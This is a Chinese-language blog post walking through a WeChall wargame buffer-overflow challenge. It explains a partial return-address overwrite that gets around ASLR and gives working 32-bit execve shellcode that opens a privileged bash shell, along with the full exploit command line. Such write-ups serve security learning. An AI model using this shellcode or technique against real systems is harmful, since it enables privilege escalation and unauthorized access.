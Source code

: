 ```yaml
---
title: Tropical Fruits
author: rk700
layout: post
tags:
  - wechall
  - exploit
---
```

<http://www.wechall.net/challenge/warchall/tropical/7/index.php>  
这道题overflow很明显，关键是怎样绕过ASLR。

到现在做了这些题目，总结下来要找漏洞的话，最好是能找到不自然的地方。这道题的不自然之处在具体溢出那里，用的是`memcpy`加`strlen`，而一般来说复制字符串直接`strcpy`就够了。所以这里是关键，两种方法相比，`memcpy`不会在最后添null字符，这给了我们提示。另一方面，由于各个库的的地址都随机化了，所以我们用partial EIP overwrite，也就是只修改返回地址的低位。而正是由于`memcpy`我们才不用担心多余的null字符

具体的，随机化只是随机page, 在page内的offset还是不变的。page的大小是4k，也就是说地址的后三位不会被随机化。调用`vulnfunc`后的返回地址是`0x08048540`，我们修改最低位的那个byte，让返回到其他地方。这里我选择返回到`0x08040563`，其内容是`ret`

这样一来，从`vulnfunc`返回后，又调用一次`ret`，其效果是跳转到`vulnfunc`的`argv[1]`那里。幸运的是`argv[1]`的内容正是我们提供的，这样就实现了exploit

下面是shellcode的汇编代码，由于`/bin/sh`被链接到`/bin/bash`了，所以我们需要`-p`选项来保持setgid

{% highlight nasm %}
BITS 32
xor eax, eax

push eax
mov edx, esp ;env
push word 0x702d 
mov ecx, esp ;-p

push eax
push byte 0x68
push 0x7361622f
push 0x6e69622f
mov ebx, esp ;/bin/bash

push eax
push ecx
push ebx
mov ecx, esp ;argv
mov al, 11 ;execve("/bin/bash", ["/bin/bash", "-p", NULL], [NULL])
int 0x80
{% endhighlight %}

编译得到二进制文件，大小是35byte

buffer到返回地址的距离很容易得到，用a填充完后，最后一个byte是0x63，将返回地址的最低位改写：  
{% highlight bash %}
$ ./level7 `perl -e 'print "\x31\xc0\x50\x89\xe2\x66\x68\x2d\x70\x89\xe1\x50\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" . "a"x277 . "\x63"'`
{% endhighlight %}